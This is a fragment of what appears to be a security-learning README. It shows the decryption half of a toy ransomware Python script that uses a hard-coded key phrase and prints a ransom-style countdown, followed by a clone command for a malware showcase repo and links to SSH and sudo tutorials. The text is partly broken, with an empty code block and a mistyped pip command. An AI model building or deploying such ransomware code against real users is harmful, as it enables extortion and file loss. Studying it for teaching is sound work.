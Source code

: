 ```python

```
decryption script:

```python
.
.
.
print(files)

with open("thekey.key", "rb") as key:
    secretkey = key.read()

secretphrase = "coffee"
user_phraase = input("Enter the secret phrase to decrypt\n")

if user_phraase == secretphrase:
    for file in files:
        with open(file, "rb") as thefile:
            contents = thefile.read()
        contents_decrypted = Fernet(secretkey).decrypt(contents)
        with open(file, "wb") as thefile:
            thefile.write(contents_decrypted)
        print("congrats, your files are decrypted")
else:
    print("sorry, wrong secret phrase. you have 17:00 hrs left.")

```

$ git clone https://github.com/PatrikH0lop/malware_showcase <br />
$ pip3 install .r requirements.txt  <br />


<br /></td>
</tr>

</table>


<table style="width:100%" >

<tr>
<th>🌸 topic</th>
<th>video_guide <br /></th>
</tr>

<tr>
<th> SSH Security Essentials</th>
<td>

[reference](https://youtu.be/Ryu3SDPYNb8)
 <br /></td>
</tr>

<tr>
<th>Configuring SUDO Access</th>
<td>
